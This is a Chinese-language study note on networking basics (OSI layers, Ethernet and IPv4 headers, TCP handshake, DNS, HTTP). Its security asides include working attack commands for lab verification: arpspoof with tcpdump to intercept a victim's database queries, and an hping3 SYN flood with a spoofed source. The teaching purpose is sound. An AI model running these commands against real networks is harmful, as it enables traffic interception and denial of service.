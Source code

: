 # Internet

#### 作者: YuJian

<img src="https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fjordanjack.com%2Fpub%2Fstatic%2Ffrontend%2FBML%2Fdefault%2Fen_US%2Fimages%2Flogos%2Finternet-explorer.jpg&refer=http%3A%2F%2Fjordanjack.com&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=jpeg?sec=1620961953&t=2c02ef4be1e648b9dab13fa81ab0c989" alt="ie_icon" width="150px" />


# Internet 是什麼



​	互联网（internet），又称国际网络，指的是网络与网络之间所串连成的庞大网络，这些网络以一组通用的协议相连，形成逻辑上的单一巨大国际网络。

​	互联网始于1969年美国的阿帕网 (arpanet)。通常internet泛指互联网，而Internet则特指因特网。这种将计算机网络互相联接在一起的方法可称作“网络互联”，在这基础上发展出覆盖全世界的全球性互联网络称互联网，即是互相连接一起的网络结构。互联网并不等同万维网，万维网只是一建基于超文本相互链接而成的全球性系统，且是互联网所能提供的服务其中之一。




# 互联网、因特网、万维网三者的关系：



​	互联网包含因特网，因特网包含万维网，凡是能彼此通信的设备组成的网络就叫互联网。所以，即使仅有两台机器，不论用何种技术使其彼此通信，也叫互联网。国际标准的互联网写法是Internet，因特网是互联网的一种。因特网可不是仅有两台机器组成的互联网，它是由上千万台设备组成的互联网。

因特网使用 TCP/IP 协议让不同的设备可以彼此通信。但使用 [TCP/IP 协议](#tcp)的网络并不一定是因特网，一个局域网也可以使用 TCP/IP 协议。

​	因特网是基于 TCP/IP 协议实现的，TCP/IP 协议由很多协议组成，不同类型的协议又被放在不同的层，其中，位于应用层的协议就有很多，比如FTP、HTTP、SMTP。只要应用层使用的是HTTP协议，就称为万维网（World Wide Web）。之所以在浏览器里输入百度网址时，能看见百度网提供的网页，就是因为您的个人浏览器和百度网的服务器之间使用的是 [HTTP 协议](#http) 在交流。



# 网络体系结构



  1. **物理层**：提供透明的比特流传输,单位为比特。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/02/a.md)


  2. **数据链路层**：原始的传输线路变成逻辑传输线路，数据单位上帧。物理链路加上必要的通信协议而组成的逻辑链路。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/03/a.md)

     MAC

     MAC子层的主要功能包括数据帧的封装/卸装、帧的寻址和识别、帧的接收与发送、链路的管理、帧的差错控制。MAC层的主要访问方式有CSMA/CD、令牌环和令牌总线三种。以太网中的MAC帧格式如下：

     | 7        | 1（帧起始固定格式10101011） | 6        | 6      | 2    | 0~1500（IP数据报） | 0~46 | 4      |
     | -------- | --------------------------- | -------- | ------ | ---- | ------------------ | ---- | ------ |
     | 前导字段 | 帧起始符                    | 目的地址 | 源地址 | 类型 | 数据               | 填充 | 校验和 |

     主要協議有ARP、RARP

     ARP（Address Resolution Protocol）是根据 IP 地址获取物理地址的一个 TCP/IP 协议

     安全方面 : **ARP spoofing**

     驗證 : 使用攻擊主機 ip1 ,網關 ip0 ,被攻擊主機 ip2

     攻擊主機: 

     ```shell
     arpspoof -i eth0 -t ip2 ip0
     ```

     被攻擊主機:

     連接遠程數據庫,使用查詢語句

     攻擊主機: 

     ```shell
     tcpdump tcp port 本地連接端口 and host ip2 -s 0 -w a.cap
     ```

     解析 a.cap 包,可以監聽到攻擊主機向遠端發送的查詢語句

     

  3. **网络层**：主要功能是提供路由选择。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/04/a.md)

     网络层的主要协议有ICMP、IP、IGMP

     IPv4头部结构:

     | 0                    | 4        | 8        | 16       | 19       | 24   | 31   |
     | -------------------- | -------- | -------- | -------- | -------- | ---- | ---- |
     | 版本                 | 头部长度 | 服务类型 | 总长度   |          |      |      |
     | 标识符               |          |          | 标记     | 分片偏移 |      |      |
     | 生存时间             |          | 协议     | 头部校验 |          |      |      |
     | 源地址               |          |          |          |          |      |      |
     | 目标地址             |          |          |          |          |      |      |
     | 可选字段（长度可变） |          |          |          |          | 填充 |      |
     | 数据部分             |          |          |          |          |      |      |

     ![image-20210513010843013](./img\image-20210513010843013.png)

  4. **传输层**：传输层利用实现可靠的端到端数据传输，能实现分段，传输和组装。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/05/a.md)

     传输层的主要协议有 UDP、TCP

     TCP与UDP不同，它是基于连接的，也就是说：为了在服务端和客户端之间传送TCP数据，必须先建立一个虚拟链路，也就是TCP连接，建立TCP连接的标准过程是这样的：

     首先，请求端（客户端）发送一个包含SYN标志的TCP报文，SYN即同步（Synchronize），同步报文会指明客户端使用的端口以及TCP连接的初始序号；
     第二步，服务器在收到客户端的SYN报文后，将返回一个SYN+ACK的报文，表示客户端的请求被接受，同时TCP序号被加1，ACK即确认（Acknowledgment）。
     第三步，客户端也返回一个确认报文ACK给服务器端，同样TCP序列号被加1，到此一个TCP连接完成。

     安全方面 : **SYN Flooding攻击**

     驗證 : 使用攻擊主機 ip1 ,網關 ip0 ,被攻擊主機 ip2

     攻擊主機: 

     ```shell
     hping3 -q -n -a 2.2.2.2 -S -s 53 --keep -p 445 --flood 192.168.73.138
     ```

     被攻擊主機:

     ```shell
     windump -i 物理端口 -s 0 -w a.cap
     ```

     

  5. **会话层**：允许不同机器上的用户之间建立会话。

  6. **表示层**：提供通用的数据描述格式，功能：语法转换，表示，数加密解密，与压缩解压。

  7. **应用层**：向应用程序提供服务。[参考](https://gitee.com/yujian19840/network-engineer-intermediate/blob/master/src/06/a.md)

     应用层的主要协议有 Telnet、FTP、SMTP 等


#### 在数据在各层之前传递时的几个概念：
+ 封装：数据在高层向低层传输过程中，每层都对接收的原始数据添加信息，通常加一个包头与报尾。

+ 网络协议：数据交换建立的一系列规则，标准或约定

+ 服务：两个对等实体间通信使得本层能为上层提供服务，要实现本层协议还需要使用下层所提供的服务。

  


# <span id="tcp">TCP/IP协议</span>

TCP/IP（Transmission Control Protocol/Internet Protocol，传输控制协议/网际协议）是指能够在多个不同网络间实现信息传输的协议簇。TCP/IP 协议不仅仅指的是 TCP 和 IP 两个协议，而是指一个由 FTP、SMTP、TCP、UDP、IP等协议构成的协议簇， 只是因为在 TCP/IP 协议中 TCP 协议和IP协议最具代表性，所以被称为 TCP/IP 协议。



# <span id="http">DNS</span>

域名系统（英文：Domain Name System，缩写：DNS）是互联网的一项服务。它作为将域名和IP地址相互映射的一个分布式数据库，能够使人更方便地访问互联网。DNS使用UDP端口53。当前，对于每一级域名长度的限制是63个字符，域名总长度则不能超过253个字符。

安全方面 : **DNS欺騙**

# <span id="http">HTTP协议</span>

超文本传输协议（Hypertext Transfer Protocol，HTTP）是一个简单的请求-响应协议，它通常运行在 TCP 之上。它指定了客户端可能发送给服务器什么样的消息以及得到什么样的响应。请求和响应消息的头以 ASCII 形式给出；而消息内容则具有一个类似 MIME 的格式。这个简单模型是早期 Web 成功的有功之臣，因为它使开发和部署非常地直截了当。[参考](https://gitee.com/yujian19840/http)

